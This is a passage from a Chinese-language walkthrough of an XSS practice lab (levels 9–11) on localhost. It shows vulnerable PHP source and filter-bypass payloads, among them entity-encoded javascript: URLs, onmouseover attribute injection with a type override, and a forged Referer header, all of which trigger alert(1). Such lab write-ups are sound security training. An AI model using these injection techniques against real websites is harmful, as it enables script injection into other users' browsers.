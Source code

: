 与上一题不同的就是添加了对http的验证,我们在后面加上注释，写上http://就行了
`javascr&#x69;pt:alert(1)//http://`

### level10~16(字段注入)

**level10**  
尝试老payload，发现无特别回显，看看源码

```
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);

<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
```

尝试所有内容输入`http://localhost:51142/level10.php?keyword=test?t_link=tlink&t_history=thistory&t_sort=tsort` ，得到
```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="tsort" type="hidden">
```

`t_sort`的信息并没有过滤，可以尝试从这里注入，从源码得知`<>`被过滤掉，尝试类似`" onmouseover=javascript:alert(1) "`的payload
`http://localhost:51142/level10.php?keyword=test&t_sort=" onmouseover=javascript:alert(1) "`

发现回显
`<input name="t_sort"  value="" onmouseover=javascript:alert(1) "" type="hidden">` ,被隐藏了xd，html里面加一个type去覆盖这个状态
`http://localhost:51142/level10.php?keyword=test&t_sort=" onmouseover=javascript:alert(1) type "`

**level11**  
看页面源码
```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ref"  value="http://localhost:51142/level10.php?keyword=test&t_sort=%22%20onmouseover=javascript:alert(1)%20type%20%22" type="hidden">
```

发现referer被传回来，是上一个靶场的链接，bp抓包给他改了传回去
`Referer: "type="text "onmousemove="alert(1)`


还有一种方法创建一个文件名为 `" onmouseover=javascript:alert(1) type ".html `的 HTML 文件，在其中重定向到 level 11 的页面。

**level12**  
看看页面源码
